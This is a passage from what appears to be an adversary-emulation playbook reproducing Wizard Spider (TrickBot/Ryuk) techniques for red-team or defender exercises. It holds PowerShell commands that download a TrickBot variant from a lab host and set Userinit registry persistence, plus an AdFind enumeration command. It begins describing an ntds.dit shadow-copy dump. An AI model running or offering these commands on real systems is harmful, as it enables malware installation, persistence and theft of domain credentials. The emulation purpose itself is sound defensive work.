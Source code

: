 :warning: Open an **administrator powershell**.

Download a trickbot variant (same binary with a zero appended to the very end)

```pwsh
# Wizard Spider has established persistence using Userinit by adding the Registry key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon.[3]

Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/uxtheme.exe -OutFile $env:AppData\uxtheme.exe
```

```pwsh
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $env:AppData\uxtheme.exe" -Force
```

```pwsh
# Wizard Spider has also used AdFind and nltest/dclist to enumerate domain computers, including the domain controller.[4][5][3][7][6]

adfind -f "(objectcategory=group)"
```

### :microscope: Cited Intelligence

* <https://us-cert.cisa.gov/ncas/alerts/aa20-302a>
* <https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>
* <https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/>
* <https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/>
* <https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html>
* <https://thedfirreport.com/2020/10/08/ryuks-return/>
* <https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/>

## Step 8 - Dump Active Directory Database (ntds.dit)

:microphone: `Voice Track:`

During step 8, Wizard Spider creates a volume shadow copy in order to collect the active directory database (ntds.dit).

Wizard Spider uses vssadmin to create the shadow copy.

Wizard Spider exfiltrates the shadow copy files using an RDP-mounted network share.

---

### ☣️ Procedures

:warning: Spawn a **CMD** shell within your PowerShell window:

```bash
cmd.exe
```

